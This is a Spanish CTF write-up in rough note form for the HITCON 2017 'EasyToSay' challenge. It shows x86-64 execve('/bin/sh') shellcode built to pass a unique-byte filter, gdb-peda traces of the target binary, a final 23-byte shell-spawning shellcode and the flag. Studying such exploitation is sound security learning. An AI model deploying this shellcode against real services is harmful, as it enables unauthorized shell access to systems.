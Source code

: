 
## **Enunciado**

Te daban el binario de 64 bits de un servicio corriendo en una máquina remota para que le pases un shellcode y puedes explotarlo para conseguir una shell y poder leer la flag.

## **Solución**

Hay que pasarle un shellcode como mucho de 24 bytes donde no se puede repetir ningún byte. No vale pasar el filtro de superar esos 24 bytecode que sean diferentes y luego poner detrás tu shellcode clásico de msfvenom. 

Al lío... ahora en plan apuntes en sucio, ya los ordenaré...

Joder, lo iba a explicar en plan sencillito para enterarme y ver lo que he aprendido y un tipo mucho más listo se me ha adelantado:

https://vasco-jofra.github.io/hitcon2017/EasyToSay/



cat otro.asm 
;BITS64
global _start

section .text

_start:

xor	edx, edx
mov	rbx, 0x68732f6e69622fff
shr	rbx,0x8
push	rbx
mov	rdi,rsp
xor	rax,rax
push	rax
push	rdi
mov	rsi,rsp
mov	al,0x3b	
syscall

push	0x1
pop	rdi
push	0x3c
pop	rax
syscall


python -c "print '\x66\x41\x81\xc1\x85\x82\xb2\x64\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'" > file


\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58


2600


0x50da450ae000





gdb-peda$ i b
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x0000555555554de4 
	breakpoint already hit 1 time
2       breakpoint     keep y   0x0000555555554e2b 
	breakpoint already hit 1 time


	
	
	
	xor    eax,eax
   0x55cf92904245:	cmp    QWORD PTR [rip+0x20402b],0x0        # 0x55cf92b08278
   0x55cf9290424d:	je     0x55cf9290443f
=> 0x55cf92904253:	call   0x55cf92904e70
   0x55cf92904258:	lea    r14,[rax+0x1]
   0x55cf9290425c:	mov    BYTE PTR [rax],0x0
   0x55cf9290425f:	xor    eax,eax
   0x55cf92904261:	mov    rdi,r14

   
   
   0x55f5ecca7eb9:	xor    edx,edx
   0x55f5ecca7ebb:	xor    eax,eax
=> 0x55f5ecca7ebd:	call   0x55f5ecca67b0 <execl@plt>
   0x55f5ecca7ec2:	mov    rsi,QWORD PTR [rip+0x2033af]        # 0x55f5eceab278
   0x55f5ecca7ec9:	lea    rdi,[rip+0x16fe]        # 0x55f5ecca95ce
   
   
   
   
   
   x/64i 0x1415d46b000
   0x1415d46b000:	xor    rbp,rbp
   0x1415d46b003:	xor    rax,rax
   0x1415d46b006:	xor    rbx,rbx
   0x1415d46b009:	xor    rcx,rcx
   0x1415d46b00c:	xor    rdx,rdx
   0x1415d46b00f:	xor    rdi,rdi
   0x1415d46b012:	xor    rsi,rsi
   0x1415d46b015:	xor    r8,r8
   0x1415d46b018:	xor    r9,r9
   0x1415d46b01b:	xor    r10,r10
   0x1415d46b01e:	xor    r11,r11
   0x1415d46b021:	xor    r12,r12
   0x1415d46b024:	xor    r13,r13
   0x1415d46b027:	xor    r14,r14
   0x1415d46b02a:	xor    r15,r15
   0x1415d46b02d:	add    rsp,0x1000
   0x1415d46b034:	movabs rdi,0x68732f6e69622e
   0x1415d46b03e:	xor    di,0x1
   0x1415d46b042:	push   rdi
   0x1415d46b043:	push   rsp
   0x1415d46b044:	pop    rdi
   0x1415d46b045:	mov    al,0x3b
   0x1415d46b047:	syscall 
   0x1415d46b049:	or     al,BYTE PTR [rax]
   0x1415d46b04b:	add    BYTE PTR [rax],al
   0x1415d46b04d:	add    BYTE PTR [rax],al

   
   x/64i 0x7ffff7ff3000
   0x7ffff7ff3000:	xor    rbp,rbp
   0x7ffff7ff3003:	xor    rax,rax
   0x7ffff7ff3006:	xor    rbx,rbx
   0x7ffff7ff3009:	xor    rcx,rcx
   0x7ffff7ff300c:	xor    rdx,rdx
   0x7ffff7ff300f:	xor    rdi,rdi
   0x7ffff7ff3012:	xor    rsi,rsi
   0x7ffff7ff3015:	xor    r8,r8
   0x7ffff7ff3018:	xor    r9,r9
   0x7ffff7ff301b:	xor    r10,r10
   0x7ffff7ff301e:	xor    r11,r11
   0x7ffff7ff3021:	xor    r12,r12
   0x7ffff7ff3024:	xor    r13,r13
   0x7ffff7ff3027:	xor    r14,r14
   0x7ffff7ff302a:	xor    r15,r15
   0x7ffff7ff302d:	add    rsp,0x1000
   0x7ffff7ff3034:	mov    dx,0x1000
   0x7ffff7ff3038:	sub    rsp,rdx
   0x7ffff7ff303b:	add    r9,0x46424344
   0x7ffff7ff3042:	shl    ah,0x2
   0x7ffff7ff3045:	not    r13d
   0x7ffff7ff3048:	mov    dl,0x64
   0x7ffff7ff304a:	nop
   0x7ffff7ff304b:	xor    DWORD PTR [rax],eax
   0x7ffff7ff304d:	add    BYTE PTR [rax],al
   0x7ffff7ff304f:	add    BYTE PTR [rax],al


   52 los usa él y 23 te los deja de regalo
   
   
   
   x/32i 0x7ffff7ff3000
   0x7ffff7ff3000:	xor    rbp,rbp
   0x7ffff7ff3003:	xor    rax,rax
   0x7ffff7ff3006:	xor    rbx,rbx
   0x7ffff7ff3009:	xor    rcx,rcx
   0x7ffff7ff300c:	xor    rdx,rdx
   0x7ffff7ff300f:	xor    rdi,rdi
   0x7ffff7ff3012:	xor    rsi,rsi
   0x7ffff7ff3015:	xor    r8,r8
   0x7ffff7ff3018:	xor    r9,r9
   0x7ffff7ff301b:	xor    r10,r10
   0x7ffff7ff301e:	xor    r11,r11
   0x7ffff7ff3021:	xor    r12,r12
   0x7ffff7ff3024:	xor    r13,r13
   0x7ffff7ff3027:	xor    r14,r14
   0x7ffff7ff302a:	xor    r15,r15
   0x7ffff7ff302d:	add    rsp,0x1000
   0x7ffff7ff3034:	add    r9w,0x8285
   0x7ffff7ff303a:	mov    dl,0x64
   0x7ffff7ff303c:	lea    rsi,[rip+0xfffffffffffefaf6]        # 0x7ffff7fe2b39
   0x7ffff7ff3043:	add    rsi,r9
   0x7ffff7ff3046:	xor    eax,eax
   0x7ffff7ff3048:	syscall 
   0x7ffff7ff304a:	jmp    0x7ffff7ff3043
   0x7ffff7ff304c:	add    BYTE PTR [rax],al

   
   
   
   0x55555575605c:
   
   Cosas importantes sobre el código que ya tiene guardado él para ejecutar antes de nuestro shellcode:
   
  1.- Es en la instrucción "call memcpy" del main donde va a guardar esa parte más lo que nosotros le pasemos.
   Breakpoint 3 at 0x555555554d89
   
   Así llama a la función memcpy:
   Guessed arguments:
	arg[0]: 0x7ffff7ff3000 --> 0x0 
	arg[1]: 0x555555554ee8 --> 0x3148c03148ed3148 
	arg[2]: 0x34 ('4')
	
	Sabe donde está el código suyo (0x34h) bytes que guarda en esa posición de memoria(0x555555554ee8) porque lo calcula a partir del rip, son posiciones relativas pero el offset es fijo. 
	Echemos un vistazo:
	
		0x555555554d62:	mov    rax,QWORD PTR [rip+0x2012d7]        # 0x555555756040
		0x555555554d69:	mov    QWORD PTR [rbp-0x2038],rax
		0x555555554d70:	mov    rcx,QWORD PTR [rip+0x201299]        # 0x555555756010
		0x555555554d77:	mov    rax,QWORD PTR [rip+0x2012c2]        # 0x555555756040
		0x555555554d7e:	mov    edx,0x34

	
	En esos valores hay:
	
		x/32xw 0x555555756010
		0x555555756010:	0x55554ee8	0x00005555	0x00000000	0x00000000
		0x555555756020 <stdout>:	0xf7dd4600	0x00007fff	0x00000000	0x00000000
		0x555555756030 <stdin>:	0xf7dd38c0	0x00007fff	0x00000000	0x00000000
		0x555555756040:	0xf7ff3000	0x00007fff	0x00000000	0x00000000
		
	O sea, siempre se va a copiar a la posición 0x7ffff7ff3000 el contenido de 0x555555554ee8
	Su código va a estar hardcodeado en la posición 0x555555554ee8:
	
	   0x555555554ee8:	xor    rbp,rbp
	   0x555555554eeb:	xor    rax,rax
	   0x555555554eee:	xor    rbx,rbx
	   0x555555554ef1:	xor    rcx,rcx
	   0x555555554ef4:	xor    rdx,rdx
	   0x555555554ef7:	xor    rdi,rdi
	   0x555555554efa:	xor    rsi,rsi
	   0x555555554efd:	xor    r8,r8
	   0x555555554f00:	xor    r9,r9
	   0x555555554f03:	xor    r10,r10
	   0x555555554f06:	xor    r11,r11
	   0x555555554f09:	xor    r12,r12
	   0x555555554f0c:	xor    r13,r13
	   0x555555554f0f:	xor    r14,r14
	   0x555555554f12:	xor    r15,r15
	   0x555555554f15:	add    rsp,0x1000
	   0x555555554f1c:	add    BYTE PTR [rcx+rbp*2+0x6d],dl <-- Esta línea ya no forma parte de su código
	   
	   0x555555554f1c-0x555555554ee8=0x34 (el número de bytes que copia en hexadecimal)
  
  2.- Despues del __read_check, tenemos estos valores:
  
		   0x555555554dbd:	call   0x555555554918
		=> 0x555555554dc2:	cdqe   
		   0x555555554dc4:	mov    QWORD PTR [rbp-0x2040],rax
		   0x555555554dcb:	mov    rdx,QWORD PTR [rbp-0x2040]
		   0x555555554dd2:	lea    rax,[rbp-0x2030]
		   0x555555554dd9:	mov    rsi,rdx
		[------------------------------------stack-------------------------------------]
		0000| 0x7fffffffc260 --> 0x0 
		0008| 0x7fffffffc268 --> 0x7ffff7ff3000 --> 0x3148c03148ed3148 
		0016| 0x7fffffffc270 --> 0x64b28285c1814166 
		0024| 0x7fffffffc278 --> 0x4cfffefaf6358d48 
		0032| 0x7fffffffc280 --> 0xf7eb050fc031ce01 
		0040| 0x7fffffffc288 --> 0x0 
		0048| 0x7fffffffc290 --> 0x0 
		0056| 0x7fffffffc298 --> 0x0 

	Si nos fijamos bien son las líneas de nuestro código, exactamente 0x18 bytes. 
	
	   x/32i 0x7fffffffc270
	   0x7fffffffc270:	add    r9w,0x8285
	   0x7fffffffc276:	mov    dl,0x64
	   0x7fffffffc278:	lea    rsi,[rip+0xfffffffffffefaf6]        # 0x7ffffffebd75
	   0x7fffffffc27f:	add    rsi,r9
	   0x7fffffffc282:	xor    eax,eax
	   0x7fffffffc284:	syscall 
	   0x7fffffffc286:	jmp    0x7fffffffc27f
	   0x7fffffffc288:	add    BYTE PTR [rax],al

  3.- A partir de aquí empieza a empalmar su código con el que tu has introducido:
  
	   0x555555554de8:	mov    rax,QWORD PTR [rip+0x201251]        # 0x7ffff7ff3000
	   0x555555554def:	add    rax,0x34
	=> 0x555555554df3:	mov    rdx,QWORD PTR [rbp-0x2030]	<- Va metiendo los trozos de nuestro código que están en la pila
	   0x555555554dfa:	mov    QWORD PTR [rax],rdx
	   0x555555554dfd:	mov    rdx,QWORD PTR [rbp-0x2028]
	   0x555555554e04:	mov    QWORD PTR [rax+0x8],rdx
	   0x555555554e08:	mov    rdx,QWORD PTR [rbp-0x2020]

   
 
 En definitiva sólo admite 23 bytes y que no se repitan para explotar el servicio.
 
 Mira este shellcode justo 23 bytes:
 
 \x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05




hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}
